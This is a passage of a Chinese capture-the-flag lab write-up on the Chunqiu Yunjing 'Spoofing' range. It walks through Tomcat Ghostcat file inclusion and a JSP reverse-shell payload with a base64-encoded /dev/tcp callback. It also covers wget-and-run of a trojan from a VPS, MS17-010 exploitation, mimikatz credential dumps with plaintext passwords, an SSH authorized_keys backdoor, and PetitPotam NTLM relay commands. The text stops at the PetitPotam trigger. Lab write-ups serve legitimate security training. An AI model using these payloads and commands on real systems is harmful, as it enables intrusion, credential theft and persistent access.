# 内网打靶—春秋云镜篇 3 - 先知社区

内网打靶—春秋云镜篇 3

- - -

# 靶场：春秋云镜—Spoofing

# 外网打点

## 信息搜集

直接用 Fscan 扫描下

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122165903-7d7d62e0-b904-1.png)

发现后台，访问

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122165911-8253faf4-b904-1.png)

点了点都是前端页面，没什么东西，使用`dirsearch`扫描后发现

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122165922-88eab574-b904-1.png)

虽然有漏洞点，可以进行文件执行和文件读取，但没有上传点，无法上传，接下来用 dirsearch 扫描一下

```plain
python3 dirsearch.py -u "http://39.99.243.184:8080/"
```

扫描结果

```plain
[07:40:20] Starting: 
[07:40:22] 302 -    0B  - /js  ->  /js/                                    
[07:40:34] 200 -  114B  - /404.html                                         
[07:40:40] 400 -  795B  - /\..\..\..\..\..\..\..\..\..\etc\passwd           
[07:40:41] 400 -  795B  - /a%5c.aspx                                        
[07:41:14] 302 -    0B  - /css  ->  /css/                                   
[07:41:15] 302 -    0B  - /data  ->  /data/                                 
[07:41:17] 302 -    0B  - /docs  ->  /docs/                                 
[07:41:17] 200 -   17KB - /docs/                                            
[07:41:17] 302 -    0B  - /download  ->  /download/                         
[07:41:18] 200 -  132B  - /download/                                        
[07:41:20] 302 -    0B  - /examples  ->  /examples/                         
[07:41:20] 200 -    6KB - /examples/servlets/index.html                     
[07:41:20] 200 -    1KB - /examples/                                        
[07:41:20] 200 -  658B  - /examples/servlets/servlet/CookieExample
[07:41:20] 200 -  947B  - /examples/servlets/servlet/RequestHeaderExample   
[07:41:20] 200 -  682B  - /examples/jsp/snp/snoop.jsp                       
[07:41:26] 403 -    3KB - /host-manager/                                    
[07:41:26] 403 -    3KB - /host-manager/html
[07:41:27] 302 -    0B  - /images  ->  /images/                             
[07:41:29] 200 -    7KB - /index.html                                       
[07:41:33] 302 -    0B  - /lib  ->  /lib/                                   
[07:41:37] 302 -    0B  - /manager  ->  /manager/                           
[07:41:37] 403 -    3KB - /manager/admin.asp
[07:41:37] 403 -    3KB - /manager/
[07:41:37] 403 -    3KB - /manager/login                                    
[07:41:37] 403 -    3KB - /manager/status/all
[07:41:37] 403 -    3KB - /manager/jmxproxy/?get=java.lang:type=Memory&att=HeapMemoryUsage
[07:41:37] 403 -    3KB - /manager/jmxproxy/?get=BEANNAME&att=MYATTRIBUTE&key=MYKEY
[07:41:37] 403 -    3KB - /manager/jmxproxy
[07:41:37] 403 -    3KB - /manager/jmxproxy/?qry=STUFF
[07:41:37] 403 -    3KB - /manager/jmxproxy/?get=java.lang:type=Memory&att=HeapMemoryUsage&key=used                                                                                               
[07:41:37] 403 -    3KB - /manager/html/
[07:41:37] 403 -    3KB - /manager/VERSION
[07:41:37] 403 -    3KB - /manager/jmxproxy/?set=BEANNAME&att=MYATTRIBUTE&val=NEWVALUE
[07:41:37] 403 -    3KB - /manager/html
[07:41:38] 403 -    3KB - /manager/login.asp                                
[07:41:38] 403 -    3KB - /manager/jmxproxy/?invoke=Catalina%3Atype%3DService&op=findConnectors&ps=                                                                                               
[07:41:38] 403 -    3KB - /manager/jmxproxy/?set=Catalina%3Atype%3DValve%2Cname%3DErrorReportValve%2Chost%3Dlocalhost&att=debug&val=cow                                                           
[07:41:38] 403 -    3KB - /manager/jmxproxy/?invoke=BEANNAME&op=METHODNAME&ps=COMMASEPARATEDPARAMETERS                                                                                            
[07:42:11] 403 -    0B  - /upload/                                          
[07:42:11] 403 -    0B  - /upload                                           
[07:42:12] 403 -    0B  - /upload/b_user.csv                                
[07:42:12] 403 -    0B  - /upload/loginIxje.php
[07:42:12] 403 -    0B  - /upload/test.txt                                  
[07:42:12] 403 -    0B  - /upload/1.php
[07:42:12] 403 -    0B  - /upload/test.php                                  
[07:42:12] 403 -    0B  - /upload/b_user.xls                                
[07:42:12] 403 -    0B  - /upload/upload.php                                
[07:42:12] 403 -    0B  - /upload/2.php                                     
[07:42:12] 200 -    9KB - /user.html                                        

Task Completed
```

访问`/docs`可以发现是`Tomcat 9.0.30`，直接搜所相关漏洞，可以发现`CNVD-2020-10487`漏洞，可以进行任意文件读取和文件包含

## 漏洞探测

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122165929-8d7857ea-b904-1.png)

但是我们需要有恶意文件才能包含从而获取权限，因此我们需要找到一个上传接口，正好在`web.xml`中发现接口`UploadTestServlet`，访问发现是上传文件接口，上传反弹 shell 文件，内容如下

```plain
<% java.io.InputStream in = Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xLjEuMS4xLzEyMzQgMD4mMQ==}|{base64,-d}|{bash,-i}").getInputStream(); int a = -1; byte[] b = new byte[2048]; out.print("<pre>"); while((a=in.read(b))!=-1){ out.println(new String(b));  out.print("</pre>"); } %>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122165934-900ac326-b904-1.png)

提交后得到文件

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122165941-94150f3a-b904-1.png)

## 反弹 shell

首先监听端口

```plain
nc -lvnp 7777
```

接下来使用脚本进行文件包含

```plain
python3 tomcat.py http://39.99.243.184:8080/ 8009 xx.txt   eval
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122165948-989e6bbe-b904-1.png)

而后在监听处可得到 shell，在`root/flag`文件夹下发现`flag`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122165953-9b9248ea-b904-1.png)

# 内网横向

## 信息搜集

使用 VIPER 生成木马后上传至靶机

```plain
攻击机：
python3 -m http.server
靶机
wget VPS:PORT/xxx.elf
./xxx.elf
```

上传后上传`fscan`和`chisel`，使用 fscan 进行 C 段探测

```plain
meterpreter > shell -c './fscan -h 172.22.11.76/24'

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.3
start infoscan
(icmp) Target 172.22.11.76    is alive
(icmp) Target 172.22.11.6     is alive
(icmp) Target 172.22.11.26    is alive
(icmp) Target 172.22.11.45    is alive
[*] Icmp alive hosts len is: 4
172.22.11.76:8080 open
172.22.11.76:22 open
172.22.11.26:445 open
172.22.11.45:445 open
172.22.11.6:445 open
172.22.11.45:139 open
172.22.11.26:139 open
172.22.11.6:139 open
172.22.11.26:135 open
172.22.11.45:135 open
172.22.11.6:135 open
172.22.11.76:8009 open
172.22.11.6:88 open
[*] alive ports len is: 13
start vulscan
[*] NetBios 172.22.11.6     [+] DC:XIAORANG\XIAORANG-DC    
[*] NetBios 172.22.11.26    XIAORANG\XR-LCM3AE8B          
[*] NetInfo 
[*]172.22.11.6
   [->]XIAORANG-DC
   [->]172.22.11.6
[+] MS17-010 172.22.11.45   (Windows Server 2008 R2 Enterprise 7601 Service Pack 1)
[*] NetInfo 
[*]172.22.11.26
   [->]XR-LCM3AE8B
   [->]172.22.11.26
[*] NetBios 172.22.11.45    XR-DESKTOP.xiaorang.lab             Windows Server 2008 R2 Enterprise 7601 Service Pack 1
[*] WebTitle http://172.22.11.76:8080  code:200 len:7091   title:后台管理
已完成 13/13
[*] 扫描结束，耗时：7.176621862s
```

## 代理搭建

使用 chisel 搭建代理。

VPS

```plain
./chisel server -p 7000 -reverse
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122170003-a142f0d2-b904-1.png)

靶机

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122170008-a4352eea-b904-1.png)

## 攻击域成员一 (MS17-010)

### MSF 攻击

刚刚 Fscan 扫描出了漏洞，直接用 msf 打就好了

```plain
proxychains msfconsole
set payload windows/x64/meterpreter/bind_tcp
set RHOSTS 172.22.11.45
run
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122170016-a8f8e728-b904-1.png)

### 转发上线

使用 VIPER 转发上线

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122170021-abfac5ae-b904-1.png)

使用 upload 上传木马

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122170026-af07ca12-b904-1.png)

`execute`指令执行文件

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122170032-b2dc5f5e-b904-1.png)

在`C:/Users/Administrator/flag`下发现 flag

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122170038-b690aa92-b904-1.png)

## 攻击域成员二 (PetitPotam 强制认证)

### 票据抓取

列出票据

```plain
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username     Domain    NTLM                              SHA1
--------     ------    ----                              ----
XR-DESKTOP$  XIAORANG  3c6b049a1558b32aa6d978cc9abdd9d7  1374473614a90526f728fe8b469329d01c55d6e7
yangmei      XIAORANG  25e42ef4cc0ab6a8ff9e3edbbda91841  6b2838f81b57faed5d860adaf9401b0edb269a6f

wdigest credentials
===================

Username     Domain    Password
--------     ------    --------
(null)       (null)    (null)
XR-DESKTOP$  XIAORANG  d7 17 b7 3e 45 89 1c df 0d b6 c1 ce 72 77 cf 5f 10 94 02 1d e6 bd d6 86 ed 7a 8e c5 97 9d 3b fb a1 0a bc 72 26 fd 6c 4a 0d 2a ab 9a 9d fc 63 c4 13 4f b1 e2 7a 97 dc b8 13 5c d2 be a3 7f 0a 27 a0 a9 2b 80 85 07 76 32 ec da 89 79 01 cb 03 98 8f 4e c0 f1 76 db f5 91 09 ab db 4e 43 f4 49 a0 5b ac 7a c0 7b 82 1b bc 5f 50 2c ef c6 0f 1f 9f f0 fa 62 0d 8e 0b 32 b4 28 c8 45 95 55 82 3b 5d 7b e5 7f 4a 0d 5d 95 15 94 82 61 d4 51 80 8e db 5e 60 29 dd e6 dc bf e7 90 bc dd a0 27 c2 70 78 7c ff 12 6a 5f 7d c9 95 75 78 d1 ba 4b e8 cd a7 f8 3a 7b d0 8a 86 cb 43 88 86 ad b2 33 2e f4 b9 a7 6f 22 d9 50 42 f5 b3 e4 b4 d1 20 b7 07 5c d1 c0 53 a5 9c 64 cf ae b1 fe b6 b5 2f 80 c6 4b 88 9d ca ee b4 97 be 0e 91 74 bb f5 df da cb 07 1d
yangmei      XIAORANG  xrihGHgoNZQ

kerberos credentials
====================

Username     Domain        Password
--------     ------        --------
(null)       (null)        (null)
xr-desktop$  XIAORANG.LAB  d7 17 b7 3e 45 89 1c df 0d b6 c1 ce 72 77 cf 5f 10 94 02 1d e6 bd d6 86 ed 7a 8e c5 97 9d 3b fb a1 0a bc 72 26 fd 6c 4a 0d 2a ab 9a 9d fc 63 c4 13 4f b1 e2 7a 97 dc b8 13 5c d2 be a3 7f 0a 27 a0 a9 2b 80 85 07 76 32 ec da 89 79 01 cb 03 98 8f 4e c0 f1 76 db f5 91 09 ab db 4e 43 f4 49 a0 5b ac 7a c0 7b 82 1b bc 5f 50 2c ef c6 0f 1f 9f f0 fa 62 0d 8e 0b 32 b4 28 c8 45 95 55 82 3b 5d 7b e5 7f 4a 0d 5d 95 15 94 82 61 d4 51 80 8e db 5e 60 29 dd e6 dc bf e7 90 bc dd a0 27 c2 70 78 7c ff 12 6a 5f 7d c9 95 75 78 d1 ba 4b e8 cd a7 f8 3a 7b d0 8a 86 cb 43 88 86 ad b2 33 2e f4 b9 a7 6f 22 d9 50 42 f5 b3 e4 b4 d1 20 b7 07 5c d1 c0 53 a5 9c 64 cf ae b1 fe b6 b5 2f 80 c6 4b 88 9d ca ee b4 97 be 0e 91 74 bb f5 df da cb 07 1d
xr-desktop$  XIAORANG.LAB  (null)
yangmei      XIAORANG.LAB  xrihGHgoNZQ
```

得到两个用户，机器账号`xr-desktop$`和用户`yangmei`。

### 强制认证

靶场提示了`NTLM`，因此用`cme`看下 WebClient 和 petitpotam

```plain
proxychains ./cme smb 172.22.11.0/24 -u yangmei -p xrihGHgoNZQ -d xiaorang.lab -M Webdav
proxychains ./cme smb 172.22.11.0/24 -u yangmei -p xrihGHgoNZQ -d xiaorang.lab -M PetitPotam
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122170048-bc87a4aa-b904-1.png)

`172.22.11.26`机器上存在`WEBDAV`服务

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122170053-bf108afc-b904-1.png)

存在`PetitPotam`。

根据题目描述，那么这里应该是要用到`WEBDAV + PetitPotam`的强制认证，简单的说就是要求我们用`PetitPotam`强制目标主机使用`LM Hash、NTLM Hash`对我们的服务器进行认证，此时我们可以通过该认证中继到其他目标服务器，以此达到横向的目的。

参考了大师傅们的博客，发现这里使用的是`无ADCS + PetitPotam + NTLM`中继打法，思路大概如下

```plain
1、用 petitpotam 触发目标访问 HTTP 服务
2、目标使用 webclient 携带 NTLM 认证访问中继，并将 NTLM 认证中继到 LDAP
3、获取到机器账号身份
4、以机器账户的身份修改其自身的 msDS-AllowedToActOnBehalfOfOtherIdentity 属性，从而允许我们访问到目标机器。
```

中继环境配置

我们需要把服务器的 80 端口，转发到客户端本地的 80 端口。

因此先配置下密钥，写下后门。

```plain
攻击机
ssh-keygen -t rsa -b 4096 
cat id_rsa.pub
靶机
echo "pub 中的内容" >/root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122170100-c3b09f98-b904-1.png)

需要注意的是

**由于 SSH 的反向端口在转发监听的时候只会监听 127.0.0.1，所以这里需要稍微改动**

即使反向在转发 79 端口指定监听全部，端口 79 仍绑定在`127.0.0.1`。

因此我们可以多加一条，将流量`0.0.0.0:80`转发到`127.0.0.1:79`，再反向转发回客户端本地的 80，变相使得 80 监听在`0.0.0.0`

```plain
ssh -i id_rsa root@39.99.243.184 -D SOCKS 代理 IP:PORT -R \*:79:127.0.0.1:80
nohup socat TCP-LISTEN:80,fork,bind=0.0.0.0 TCP:localhost:79 &
```

接下来本地开启`ntlmrelayx`，利用前面抓到的`XR-Desktop`作为恶意账户设置 RBCD

```plain
proxychains python3 ntlmrelayx.py -t ldap://172.22.11.6 --no-dump --no-da --no-acl --escalate-user 'xr-desktop$' --delegate-access
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122170110-c975b5bc-b904-1.png)

接着使用`PetitPotam`触发`XR-LCM3AE8B`强制认证到`172.22.11.26`

```plain
proxychains python3 PetitPotam.py -u yangmei -p 'xrihGHgoNZQ' -d xiaorang.lab ubuntu@80/pwn.txt 172.22.11.26
```

